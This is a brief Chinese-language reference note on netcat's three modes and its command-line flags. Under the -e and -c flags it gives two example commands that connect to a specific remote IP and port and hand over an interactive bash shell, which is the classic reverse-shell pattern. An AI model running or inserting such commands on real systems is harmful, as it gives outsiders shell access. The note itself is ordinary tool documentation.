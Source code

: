 nc有三种模式分别为：connect mode，listen mode，tunnel mode

- connect mode

  只针对客户端，客户端通过指定端口连接服务端

- listen mode

  只针对服务端，服务端监听端口连接

- tunnel mode

  一般用在代理，通过nc tunnel建立连接。==但是netcat数据不是加密的==

## parameter

- `-e`

  nc连接后执行本机的命令，必须以全路径表示

  nc.opensbsd没有改参数，但是可以使用具名管道符来达到此目的。

  ```
  nc 8.135.0.171 10086 -e '/bin/bash -i'
  ```

- `-c`

  nc连接后执行本机的命令，可以不用全路径(因为默认使用`/bin/bash -c`)

  nc.opensbsd没有该参数，但是可以使用具名管道符来达到此目的。

  ```
  nc 8.135.0.171 10086 -c 'bash -i'
  ```

- `-l`

  > 如果使用了`-l`参数，netcat会一直监听连接所以`-w`参数不生效

  nc.opensbsd

  表示nc监听，可以直接指定端口表示本地端口。也可以使用`-s`或`-p`指定端口。

  nc.traditional

  ==只表示监听，端口需要使用`-p`或`-s`指定。==

- `-n`

  不对域名做DNS解析

- `-p`

  指定netcat本地使用的端口

- `-s`

  如果有多IP，指定发送数据的IP

- `-v`

  输出详细内容
